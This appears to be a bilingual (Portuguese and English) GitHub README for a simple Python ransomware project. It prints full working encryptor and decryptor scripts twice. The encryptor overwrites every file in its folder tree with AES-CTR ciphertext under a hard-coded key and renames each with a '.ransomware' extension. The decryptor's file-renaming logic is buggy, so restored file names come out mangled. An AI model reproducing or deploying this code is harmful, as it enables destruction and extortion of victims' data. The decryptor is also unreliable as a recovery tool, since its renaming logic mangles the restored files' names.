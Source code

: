 # Projeto em Python de um Ransomware (PT-BR)

### Funcionamento

- O intuito deste projeto é criar um Ransomware que criptografe arquivos presentes na pasta e nas subpastas do local onde o Malware está.

- Este Ransomware é dividido em dois executaveis, um deles terá a função de criptografar os arquivos e o outro terá o objetivo de descriptografa-los futuramente.

### Código de Criptografia

- O executavel abre todos os arquivos presentes na pasta e nas subpastas no local onde ele se encontra, verificando se já não estão criptografados ou se não são os próprios executaveis.

- Após abrir cada arquivo presente na pasta ele copia os dados e os criptografa, reescrevendo em seguida o arquivo. Ele também substitui a estenção do arquivo para ".ransomware".

```python
import os
import pyaes

for root, dir, files in os.walk("./"):
    for f in files:
        if f != "decrypt.py" and f != "encrypt.py" and f.split(".")[-1] != "ransomware":
            name = os.path.join(root, f)

            with open(name, "rb") as file:
                file_data = file.read()

            key = b"secretencryptkey"
            aes = pyaes.AESModeOfOperationCTR(key)

            data_encrypt = aes.encrypt(file_data)

            with open(name, "wb") as file:
                file.write(data_encrypt)

            os.rename(name, f"{name}.ransomware")
```

- A chave de criptografia utilizada foi "secretencryptkey", essa chave será utilizada futuramente durante a descriptografia.

### Código de Descriptografia

- Para que o processo se inicie, o executavel exige que o usuário digite a mesma chave de criptografia que foi utilizada para criptografar os arquivos anteriormente. Se digitado corretamente, o processo se inicia, caso contrário, ele apenas retorna a mensagem "Wrong Key!" para o usuário.

- Após a chave de criptografia ser informada corretamente, o executável abre todos os arquivos presentes na pasta e nas subpastas no local onde o executavel se encontra, verificando não são os próprios executáveis e se contém a extensão ".ransomware". Com isso, apenas os arquivos que já haviam sido criptografados serão abertos.

- Para cada arquivo aberto, o executável copia dos dados, os descriptografa e reescreve o arquivo. Para finalizar, ele exclui a extensão ".ransomware". Fazendo com que o arquivo volte a seu estado original descriptografado.

```python
import os
import pyaes

secret = input("What the secret key? ")

if secret == "secretencryptkey":
    for root, dir, files in os.walk("./"):
        for f in files:
            if f != "decrypt.py" and f != "encrypt.py" and f.split(".")[-1] == "ransomware":
                name = os.path.join(root, f)
                
                with open(name, "rb") as file:
                    file_data = file.read()

                key = secret.encode()
                aes = pyaes.AESModeOfOperationCTR(key)

                data_decrypt = aes.decrypt(file_data)

                with open(name, "wb") as file:
                    file.write(data_decrypt)

                new_name = name.strip(".ransomware")
                os.rename(name, f".{new_name}")
else:
    print("Wrong Decrypt Key!")
```

### Resultados

- 

### Considerações Finais

- Diferentemente de um Ransomware real, o desenvolvido neste projeto apenas criptografa os arquivos presentes na pasta onde os executaveis se encontram, logo, CUIDADO com os testes realizados fora de um local de testes apropriado.

- Este projeto ainda está em desenvolvimento e sendo atualizado.

# Ransomware Project in Python (EN-US)

### Functionality

- The purpose of this project is to create a Ransomware that encrypts files present in the folder and subfolders of the location where the Malware is located.

- This Ransomware is divided into two executables, one of which will have the function of encrypting the files and the other will have the purpose of decrypting them in the future.

### Encryption Code

- The executable opens all files present in the folder and subfolders in the location where it is located, checking whether they are not already encrypted or whether they are not the executables themselves.

- After opening each file in the folder, it copies the data and encrypts it and then rewrites the file. It also replaces the file extension with ".ransomware".

```python
import os
import pyaes

for root, dir, files in os.walk("./"):
    for f in files:
        if f != "decrypt.py" and f != "encrypt.py" and f.split(".")[-1] != "ransomware":
            name = os.path.join(root, f)

            with open(name, "rb") as file:
                file_data = file.read()

            key = b"secretencryptkey"
            aes = pyaes.AESModeOfOperationCTR(key)

            data_encrypt = aes.encrypt(file_data)

            with open(name, "wb") as file:
                file.write(data_encrypt)

            os.rename(name, f"{name}.ransomware")
```

- The encryption key used was "secretencryptkey", this key will be used later during decryption.

### Decryption Code

- For the process to start, the executable requires the user to enter the same encryption key that was used to encrypt the files previously. If entered correctly, the process starts, otherwise, it simply returns the message "Wrong Key!" to the user.

- After the encryption key is entered correctly, the executable opens all files present in the folder and subfolders in the location where the executable is located, checking that they are not the executables themselves and that they contain the ".ransomware" extension. This means that only files that have already been encrypted will be opened.

- For each file opened, the executable copies the data, decrypts it, and rewrites the file. Finally, it deletes the ".ransomware" extension. This returns the file to its original decrypted state.

```python
import os
import pyaes

secret = input("What the secret key? ")

if secret == "secretencryptkey":
    for root, dir, files in os.walk("./"):
        for f in files:
            if f != "decrypt.py" and f != "encrypt.py" and f.split(".")[-1] == "ransomware":
                name = os.path.join(root, f)
                
                with open(name, "rb") as file:
                    file_data = file.read()

                key = secret.encode()
                aes = pyaes.AESModeOfOperationCTR(key)

                data_decrypt = aes.decrypt(file_data)

                with open(name, "wb") as file:
                    file.write(data_decrypt)

                new_name = name.strip(".ransomware")
                os.rename(name, f".{new_name}")
else:
    print("Wrong Decrypt Key!")
```

### Results

- 

### Final Considerations

- Unlike real Ransomware, the one developed in this project only encrypts the files present in the folder where the executables are located, therefore, BE CAREFUL with tests performed outside an appropriate testing location.

- This project is still under development and being updated.
